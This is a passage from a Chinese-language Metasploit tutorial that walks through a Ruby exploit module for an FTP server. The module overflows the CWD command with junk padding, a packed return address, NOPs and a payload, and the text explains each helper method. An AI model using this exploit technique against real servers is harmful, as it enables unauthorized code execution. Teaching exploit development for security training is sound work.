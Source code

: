 ```
register_options( 
        [ 
                Opt::RPORT(21), 
         OptString.new('FTPPASS', [true, 'FTP Password', 'anonymous']) 
        ]) 
  End 
```

在上一章中，我们处理了许多利用模块。这个利用也不例外。我们首先包含了所有必需的库和`/lib/msf/core/exploit`目录中的`ftp.rb`库。接下来，在`initialize`部分中分配了所有必要的信息。从利用中收集必要的信息后，我们将`Ret`分配为返回地址，并将`Offset`设置为`2008`。我们还将`FTPPASS`选项的值声明为`'anonymous'`。让我们看看下一节代码：

```
def exploit 
    c = connect_login 
    return unless c 
    sploit = rand_text_alpha(target['Offset']) 
    sploit << [target.ret].pack('V') 
    sploit << make_nops(10) 
    sploit << payload.encoded 
    send_cmd( ["CWD " + sploit, false] ) 
    disconnect 
  end 
end 
```

`connect_login`方法将连接到目标并尝试使用我们提供的匿名凭据登录软件。但等等！我们什么时候提供了凭据？模块的`FTPUSER`和`FTPPASS`选项会自动启用，包括 FTP 库。`FTPUSER`的默认值是`anonymous`。但是，对于`FTPPASS`，我们已经在`register_options`中提供了值`anonymous`。

接下来，我们使用`rand_text_alpha`生成`2008`的垃圾数据，使用`Targets`字段中的`Offset`值，并将其存储在`sploit`变量中。我们还使用`pack('V')`函数将`Targets`字段中的`Ret`值以小端格式存储在`sploit`变量中。将`make_nop`函数生成的 NOP 连接到 shellcode 中，我们将其存储到`sploit`变量中。我们的输入数据已经准备好供应。

接下来，我们只需使用 FTP 库中的`send_cmd`函数将`sploit`变量中的数据发送到`CWD`命令的目标。那么，Metasploit 有什么不同之处呢？让我们看看：

+   我们不需要创建垃圾数据，因为`rand_text_aplha`函数已经为我们完成了。

+   我们不需要以小端格式提供`Ret`地址，因为`pack('V')`函数帮助我们转换了它。

+   我们从未需要手动指定 NOP，因为`make_nops`会自动为我们完成。

+   我们不需要提供任何硬编码的 shellcode，因为我们可以在运行时决定和更改有效载荷。这样可以节省时间，消除了对 shellcode 的手动更改。

+   我们简单地利用 FTP 库创建并连接套接字。

+   最重要的是，我们不需要使用手动命令连接和登录，因为 Metasploit 使用单个方法`connect_login`为我们完成了这些。

# 利用 Metasploit 对目标应用程序

我们看到使用 Metasploit 比现有的利用更有益。让我们利用应用程序并分析结果：
